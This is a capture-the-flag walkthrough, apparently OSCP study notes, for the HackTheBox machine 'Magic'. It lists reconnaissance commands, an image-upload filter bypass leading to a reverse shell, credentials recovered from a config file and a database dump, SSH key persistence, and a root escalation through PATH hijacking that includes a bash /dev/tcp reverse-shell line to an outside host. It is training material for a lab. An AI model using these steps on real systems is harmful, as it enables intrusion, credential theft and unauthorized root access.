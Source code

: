 ## Reconnaissance
### Nmap Enumeration
- We pass the nmap commands (with output):
	```bash
nmap -sC -sV -vv -p- 10.10.10.185
nmap -sU --top-ports=10 -vv 10.10.10.185

---OUTPUT-TCP---
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
---------------------------------------------------------------------------------
---OUTPUT-UDP---
445/udp  open|filtered microsoft-ds no-response
631/udp  open|filtered ipp          no-response
```
### Directory Search
- gobuster :
	```bash
gobuster dir -u http://magic.htb/ dns --wordlist /usr/share/wordlists/dirb/common.txt



---OUTPUT---
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.sh_history          (Status: 403) [Size: 274]
/assets               (Status: 301) [Size: 307] [--> http://magic.htb/assets/]
/images               (Status: 301) [Size: 307] [--> http://magic.htb/images/]
/index.php            (Status: 200) [Size: 4053]
/server-status        (Status: 403) [Size: 274]
Progress: 4614 / 4615 (99.98%)

```
- dirsearch :
	```bash
dirsearch -u 10.10.10.185

---OUTPUT---
[11:03:59] 301 -  307B  - /assets  ->  http://magic.htb/assets/             
[11:04:11] 301 -  307B  - /images  ->  http://magic.htb/images/             
[11:04:14] 200 -    1KB - /login.php                                        
[11:04:15] 302 -    0B  - /logout.php  ->  index.php                        
[11:04:35] 302 -    3KB - /upload.php  ->  login.php                        
```
- ffuf : no output
- gobuster second search with images directory
	```bash
gobuster dir -u http://magic.htb/images/ dns --wordlist /usr/share/wordlists/dirb/big.txt

---OUTPUT---
/.htpasswd        (Status: 403) [Size: 274]
/.htaccess        (Status: 403) [Size: 274]
/uploads          (Status: 301) [Size: 315] [-->http://magic.htb/images/uploads/]
```
- We access http://magic.htb/images/uploads/mime_bypass.php.png with netcat listener listening.
	- we bypassed checs with magic bytes and adding .png in the end
- We gain reverse shell as www-data.
	- get better shell:
		```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
local_machine > stty raw -echo;fg
Enter+Enter
```
- Enumerating:
	```bash
cd /var/www/Magic
cat db.php5
ps -ex

---OUTPUT-1---
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword)
--------
---OUTPUT-2---
  PID TTY      STAT   TIME COMMAND
 1821 ?        S      0:01 /usr/sbin/apache2 -k start
 1859 ?        R      0:01 /usr/sbin/apache2 -k start
 1867 ?        S      0:01 /usr/sbin/apache2 -k start
 1915 ?        S      0:00 /usr/sbin/apache2 -k start
 1922 ?        S      0:00 /usr/sbin/apache2 -k start
 1926 ?        S      0:00 /usr/sbin/apache2 -k start
 2100 ?        S      0:00 /usr/sbin/apache2 -k start
 2101 ?        S      0:00 /usr/sbin/apache2 -k start
 2102 ?        S      0:00 /usr/sbin/apache2 -k start
 2103 ?        S      0:00 /usr/sbin/apache2 -k start
 2108 ?        S      0:00 sh -c uname -a; w; id; /bin/sh -i APACHE_RUN_DIR=/var
 2112 ?        S      0:00 /bin/sh -i APACHE_RUN_DIR=/var/run/apache2 APACHE_PID
 2115 ?        S      0:00 python3 -c import pty;pty.spawn("/bin/bash") APACHE_R
 2116 pts/0    Ss     0:00 /bin/bash APACHE_RUN_DIR=/var/run/apache2 APACHE_PID_
 2216 pts/0    R+     0:00 ps -ex APACHE_LOG_DIR=/var/log/apache2 LANG=C INVOCAT
```
- MySQL Enumeration:
	```bash
mysql doesnt work
mysqldump -u theseus -p Magic >dump.sql
(Password:iamkingtheseus)
cat dump.sql

---OUTPUT---
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```
	- We find creds:
		- Username : admin
		- Password: Th3s3usW4sK1ng
**NOTE: We can also use sqlmap here but didn't use for OSCP training. Also it might be a bit slow judging from IPPSecs video**
- We try to login as theseus with these credentials:
	```bash
su theseus
Password: Th3s3usW4sK1ng
```
	- We gain access as theseus.
- Create ssh link:
	```bash
---LOCAL-MACHINE---
ssh-keygen -f theseus 
cat theseus.pub > Copy key
--------------------------------------------------------------------------------
---TARGET-MACHINE---
cd /home/theseus/.ssh
echo "<public_key>" > authorized_keys
--------------------------------------------------------------------------------
---LOCAL-MACHINE---
chmod 0600 theseus
ssh -i theseus theseus@magic.htb
```
## Privilege Escalation
- Enumeration :
	```bash
sudo -l # cannot use
uname -a # Nothing interesting
find / -type f -perm -4000 2>/dev/null # find files with setuid privileges

---OUTPUT-OF-FIND-SETUID-FILES---
/bin/sysinfo
```
- we pass :
	```bash
strace -f /bin/sysinfo #to check system calls in a binary
```
	- We see an execve command
		- we search for other execve commands (Ctrl+Shift+F)
			```bash
execve("/bin/sh", ["sh", "-c", "lshw -short"], 0x7ffd9dc1c1b8 /* 18 vars */ <unfinished ...
execve("/bin/sh", ["sh", "-c", "fdisk -l"], 0x7ffd9dc1c1b8 /* 18 vars */) = 0
execve("/bin/sh", ["sh", "-c", "free -h"], 0x7ffd9dc1c1b8 /* 18 vars */ <unfinished ...>
```
			- **As we can see some of these execve commands don't use absolute path**
- We can create a file with our bash reverse shell script with the same name as one of the above (I've tried free and lshw, both worked)
	```bash
vi free

---INPUT---
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/9999 0>&1
```
- Make it an executable and then change the $PATH variable location to the current directory and execute the sysinfo binary (with netcat listener listening)
	```bash
chmod +x free
echo $PATH : 
export PATH=$(pwd):$PATH

---TO-CHECK---
---Have-Netcat-listener-waiting---
./free # if connects code is fine
------
---EXPLOIT---
/bin/sysinfo # With Netcat listener listening
```
	- We gain root shell.
		- Can add authorzed_key to this ssh folder too for ssh access.
